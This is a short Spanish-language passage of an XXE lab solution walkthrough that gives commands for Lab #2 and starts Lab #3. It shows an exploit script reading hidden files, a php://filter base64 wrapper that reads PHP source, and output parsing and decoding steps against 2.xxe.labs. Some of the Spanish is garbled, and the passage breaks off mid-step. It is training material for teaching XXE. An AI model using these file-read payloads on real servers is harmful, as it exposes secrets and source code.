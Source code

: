 Descargar el contenido de .letmepass:

```bash
./exploit.sh {DOCROOT}/.letmepass
```

Extraer el contenido del resultado:

```bash
[Step 1] | gawk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'
```

Eliminar JSON escapar de los characters:

```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Recupera el contenido de whois.php usando el verbo DELETE:

```bash
curl -s "http://2.xxe.labs/whois.php" -X DELETE
```

* Base64 decodifica y almacena el resultado en un archivo.

> El comando base64 tiene diferentes implementaciones; por lo tanto, es posible que necesite uno de estos dos interruptores para decodificar:

```bash
[Steps 1|2|3] | base64 -d

OR

[Steps 1|2|3] | base64 -D
```

Testing command:

```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/xxe/2/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g'

curl -s 'http://2.xxe.labs/whois.php' -X DELETE | base64 -d
```

### Solutions - Lab #3

_La solución está codificado y se desconfase en un archivo php_

No rompas mi XML:

Subs de explotación

Descargar base64 codificado el contenido de .letmepass:

```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/3/.letmepass.php
```

Extraer el contenido del resultado:
